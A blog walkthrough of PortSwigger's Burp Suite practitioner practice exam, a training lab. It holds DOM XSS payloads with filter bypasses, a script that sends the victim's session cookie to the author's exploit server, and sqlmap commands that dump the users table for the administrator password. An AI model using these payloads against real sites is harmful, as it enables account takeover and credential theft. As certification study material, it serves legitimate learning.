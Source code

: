 ```yaml
---
title: BurpSuite Certified Practitioner Practice Exam
author: H0j3n
date: 2021-11-11 00:00:00
categories: [Webs]
tags: [Webs]
render_with_liquid: false
---
```


### Introduction

PortSwigger has introduced the **Burp Suite Certified Practitioner** accreditation this year. It is a **three-hour** exam and by passing one you'll be able to demonstrate the ability to:

- Detect and exploit common web vulnerabilities.
- Display knowledge of fundamental web technologies
- Adapt attacks to evade common defenses.

The Burp Suite Certified Practitioner exam costs **$99** and you will need to have an **active subscription** to Burp Suite Professional. You can get certified by using only this 3 steps.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/burp_step_certs.PNG)

Also, if you pass the exam before 15 Dec they will **refund** your $99!

### Burp Suite Certified Practitioner Practice Exam

I will not go further into the explanation of the practice exam as you can read more in [here](https://portswigger.net/web-security/certification/practice-exam) . But there are three (3) stages that we need to complete:

- **Stage 1**: Access any user account.
- **Stage 2**: Use your user account to access the admin interface at **/admin**, perhaps by elevating your privileges or compromising the administrator account.
- **Stage 3**: Use the admin interface to read the contents of **/home/carlos/secret** from the server's filesystem, and submit it using **"submit solution"**.

Before we go through the practice exam, there are few things to take notes.

~~~
-> All the parameters found in this walkthrough might change and will not be the same as yours.
~~~

#### Walkthrough 1/3

When we open the challenge, we can see there is a search function. You can try with a simple payload to check different vulnerabilities such as `single quote (')`, XSS payload or etc. When we try put for example `test123` and view the Burp HTTP history, we can see also `searchResults.js` been requested.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/burp_found_js.png)

From here, we can see inside the javascript there is `eval` function been used.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/burp_found_eval.png)

Thanks to [@r00tpgp](https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html) blog, I learn something new. We can use this Chrome extension to easily discover and test inputs passed into sinks that could lead to **DOM XSS vulnerabilities**.

- [Untrusted Types For DevTools](https://chrome.google.com/webstore/detail/untrusted-types-for-devto/bpeblffgmddnafmnmdjohcmkbeifdlnb?hl=en)

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/chrome_extension_untrusted.PNG)

When we search something again, we could see this in our **console**.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/console_js.png)

Here are payloads that will works:

~~~js
"-alert(1)-"
\\"-alert(1)}//
"-alert(1)}//
~~~

Now, let's create a payload to alert cookies. 

~~~js
"-alert(document.cookie)-"
~~~

We notice that it will get blocked.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/payload_blocked.png)

Using global variables, we can bypass it.

~~~js
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
~~~

Let's create another payload to test before send to our exploit server. But, this will also get blocked.

~~~js
"-(window["document"]["location"]="https://<CHANGE_HERE>.web-security-academy.net/?"+window["document"]["cookie"])-"
~~~

By replacing `.` with `%2e` we are able to bypass it.

~~~js
"-(window["document"]["location"]="https://<CHANGE_HERE>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
~~~

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/cyberchef_urlencode_1.png)

We can see our **session key** in log.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/session_log.png)

When we try to use the first payload **(Before URL Encode)**, it doesn't work. After we use the second payload **(After URL Encode)**, it seems to work now. You can use [CyberChef](https://gchq.github.io/CyberChef/) as it easy to use.

~~~js
# Before URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find="-(window["document"]["location"]="https://<CHANGE_HERE>>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"';
</script>

# After URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find=%22%2D%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2F<CHANGE_HERE>%252eweb%2Dsecurity%2Dacademy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29%2D%22';
</script>
~~~

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/cyberchef_urlencode_2.png)

Nice! We got the session cookie **(Carlos)** in our log.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/session_log_2.png)

Change the session cookie and we will get login as **Carlos**!

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/carlos_login.png)


#### Walkthrough 2/3

There is new features `Advanced Search` that we could access using **Carlos** account.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/advanced_search.png)

By inserting `single quote (')` on the second parameter it will give us SQL Error **(PostgreSQL)**.

~~~bash
https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by='&writer=
~~~

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/sql_error.png)

Since we know the parameter that vulnerable to **SQLi**, we can now use **SQLMap**.

~~~bash
(1)
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --batch

(2) - Get Databases
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --dbs --batch

(3) - Get Tables
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public --tables --batch

(4) - Dump Specific Table
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public -T users --dump --batch
~~~

We will then be able to dump the `users` tables and get the `administrator` password!

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/sqlmap_output.png)

Login as `administrator` and delete **Carlos** account to complete the second (2) stage.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/deleted_carlos.png)

If you want to use **SQLMap** in Windows, make sure you have **Python2/Python3** and download the `zip` file from [here](https://sqlmap.org/)

#### Walkthrough 3/3

### Conclusion

### References

- https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html
- https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/
- https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/

